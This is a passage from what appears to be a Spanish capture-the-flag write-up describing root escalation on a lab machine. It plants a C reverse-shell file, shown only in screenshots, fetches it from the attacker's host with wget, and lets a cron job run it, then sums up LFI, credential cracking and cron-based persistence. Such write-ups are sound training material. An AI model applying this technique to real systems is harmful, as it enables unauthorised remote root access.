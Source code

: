 <img width="567" height="125" alt="imagen" src="https://github.com/user-attachments/assets/72fb99cb-52aa-4be5-916e-1faaebfceed3" />

Dentro de nuestra máquina atacante creamos el fichero usando nano, vi u otro editor.

<img width="567" height="261" alt="imagen" src="https://github.com/user-attachments/assets/4eec904d-0070-4364-b046-cc736e59f280" />

(el contenido de este C permite crear una conexión socket con una interfaz de comandos /bin/bash/ y asignandole la IP de la máquina atacante haremos que cuando pase el tiempo de espera ya programado en la maquina vulnerada pues en vez de sacarnos fuera nos de acceso root en la nueva shell netcat).

## Acceso a Root {#acceso-a-root}

Para enviarnos la nueva shell montamos un servidor con Python en el puerto 8081 con el comando:

```
python3 -m http.server 8081
```

Finalmente descargamos el fichero hosteado con wget en nuestra máquina atacada que gracias a ser del grupo ippsec nos dejará meterlo con el mismo nombre (probado con otro nombre y nos da error de espacio de disco duro, indicando que el fichero no puede ser escrito en ese directorio).

```
wget http://<IPATACANTE>:8081/supersecretfileuc.c
```

<img width="567" height="166" alt="imagen" src="https://github.com/user-attachments/assets/3bebe25d-f4ac-421b-a9fc-7fb2147a0dc2" />

Cuando envie el nuevo mensaje automáticamente nos dará la Shell a través del nuevo netcat.

<img width="567" height="174" alt="imagen" src="https://github.com/user-attachments/assets/45a03ba8-dd69-4a9d-ad3e-8013e5a9fb09" />

Ahora la Shell si será del usuario root, para ello lo vemos con whoami

<img width="327" height="71" alt="imagen" src="https://github.com/user-attachments/assets/62cfdcbb-3e3b-4039-8287-514cdf4426c6" />

Si listamos el directorio vemos un root.txt final.

<img width="567" height="252" alt="imagen" src="https://github.com/user-attachments/assets/470c4dce-4791-49cd-9e60-cea6eb495239" />

<img width="500" height="115" alt="imagen" src="https://github.com/user-attachments/assets/7ef92e9a-68c4-4f1c-b778-2432eab6c141" />

## Conclusiones {#conclusiones}

Una máquina extensa y desafiante, que combina múltiples vectores:

- Enumeración web y análisis de dominio.

- Explotación de vulnerabilidad LFI.

- Extracción y crackeo de credenciales.

- Uso combinado de herramientas de pentesting (nmap, wfuzz, gobuster, hashcat, hydra).

- Escalada de privilegios y persistencia con cronjobs.
